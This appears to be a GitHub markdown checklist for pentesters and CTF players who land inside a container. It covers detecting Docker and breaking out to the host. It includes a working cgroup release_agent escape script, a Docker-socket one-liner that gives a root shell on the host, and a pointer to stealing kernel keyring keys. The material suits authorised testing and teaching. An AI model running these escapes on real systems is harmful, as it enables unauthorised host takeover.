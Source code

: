 # Attackers - Compromised Container Checklist

A list of things you can try if you're doing a CTF/Pentest/Bug bounty and find yourself in a container.

## Confirming you're in a container.

### Docker

- `ls -al /.dockerenv` - If this file exists, it's a strong indication you're in a container
- `ps -ef` - Not a definitive tell, but if there are no hardware management processes, it's a fair bet you're in a container
- `ip addr` - Again not definitive, but `172.17.0.0/16` is the default docker network, so if all you have is network stats, this is useful
- `ping host.docker.internal` - should respond if you're in a docker container

### Tools for checking

- Run [amicontained](https://github.com/genuinetools/amicontained)

## Breaking out

### High level areas

- File mounts. What information can you see from the host
- Granted Capabilities. Do you have extra rights
- Kernel version. Is it a really old kernel which has known exploits.

### Tooling

[tools list here](../general_information/tools_list.mdtools_list.md)

### Manual breakout - privileged containers

If you find out from amicontained or similar that you are in a privileged container, some ways to breakout

From [this tweet](https://twitter.com/_fel1x/status/1151487051986087936) this is a shell script which runs commands on the underlying host from a privileged container.

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

save it as `escape.sh` and you can use it like

```bash
./escape.sh ps -ef
```

Another approach for privileged containers is just to mount the underlying root filesystem. Run the `mount` command to get a list of filesystems. Usually files like `/etc/resolv.conf` are mounted off the underlying node disk, so just find that disk and mount the entire thing under something like `/host` and it'll provide edit access to the node filesystem

### Manual breakout - Access to the Docker socket

If the tooling suggests that the Docker socket is available at `/var/run/docker.sock` then you can just get the docker CLI tool and run any docker command. To breakout use :-

* `docker run -ti --privileged --net=host --pid=host --ipc=host --volume /:/host busybox chroot /host` - From [this](https://zwischenzugs.com/2015/06/24/the-most-pointless-docker-command-ever/) post. This will drop you into a root shell on the host.

## Other Avenues of attack

Avenues of attack that aren't directly related to breaking out of the container

### keyctl-unmask

As described in [this post](https://www.antitree.com/2020/07/keyctl-unmask-going-florida-on-the-state-of-containerizing-linux-keyrings/) it may be possible to get keys from the kernel keyring on a Docker host, and use those for breakouts or other access to the host or related machines.

